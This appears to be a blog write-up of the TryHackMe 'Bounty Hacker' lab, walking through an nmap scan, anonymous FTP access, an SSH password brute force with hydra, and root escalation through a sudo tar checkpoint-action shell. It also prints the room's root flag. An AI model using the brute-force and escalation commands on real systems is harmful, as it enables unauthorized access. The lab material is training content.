 ```yaml
---
published: true
image: /assets/img/sample/bounty_hacker_wirteup/boundy.png
categories:
  - Writeup
  - TryHackMe
tags:
  - tryhackme
title: 'Boundy Hacker [TryHackMe]'
---
```



Today I wanna share for you a very easy fun box in [Tryhackme](https://tryhackme.com/) called [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) created by [Sevuhl](https://tryhackme.com/p/Sevuhl)

# [](#header-2)Nmap Scan

```console
# Nmap 7.80 scan initiated Fri Jul 31 19:53:29 2020 as: nmap -sC -sV -oN nmap 10.10.85.90
Nmap scan report for 10.10.85.90
Host is up (0.29s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.69.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 19:54:25 2020 -- 1 IP address (1 host up) scanned in 56.02 seconds

```
# [](#header-2)Web

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/2.png)

I scanned all directories, but nothing interesting there ,let's move on 

# [](#header-2)FTP

Next step is FTP can login with anonymous 

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ftp 10.10.85.90
Connected to 10.10.85.90.
220 (vsFTPd 3.0.3)
Name (10.10.85.90:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
`ls -al` 

```shell
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 

```
Let's download these two files with `get` command

```shell
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (402.1706 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (35.0984 kB/s)
ftp> 

```

`task.txt`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

`locks.txt`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat locks.txt 
rEddrAGON
ReDdr*****d!cat3
Dr@gO*****cat3
R3DDr*****YndIC@Te
Re****0N
R3d*****1c4te
dRa****DiCATE
ReDD*****Ic4te
R3D****44
RedD*****1cat3
R3dD*****d1c@T3
Synd*****@g0n
re****Ag0N
REddR*****NdIc47e
Dra6******IC@t3
4L1mi*****eB357
rEDd******1c473
DrAg****D1cATE
ReD*****nd1cate
Dr@g*****1C4Te
RedDr*****9ic47e
REd*****7e
dr******c@73
rEDdr******iCat3
r3d****0N
Re****1ca7e

```

Look like `passowrd` file. According to `task.txt` file `lin` can be username 

So let's bruteforce with hydra for ssh :)

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #hydra -l lin -P locks.txt ssh://10.10.85.90
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 20:17:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.85.90:22/
[22][ssh] host: 10.10.85.90   login: lin   password: RedD*******nd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 20:17:40
```

OK! Now we got username and password , let's login

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ssh lin@10.10.85.90
lin@10.10.85.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Fri Jul 31 09:59:59 2020 from 10.8.69.162
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR**************T3}

```

# [](#header-2)Privilege Escalation

```shell
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

`lin` user can run `tar` as root ,let's go [GTFObin](https://gtfobins.github.io/) and search `tar`

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/3.png)

Now we use this command for privilege escalation

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```shell
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# 
```

We owned this machine :)

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/4.png)

[Enjoy..]()

<script src="https://tryhackme.com/badge/97569"></script>
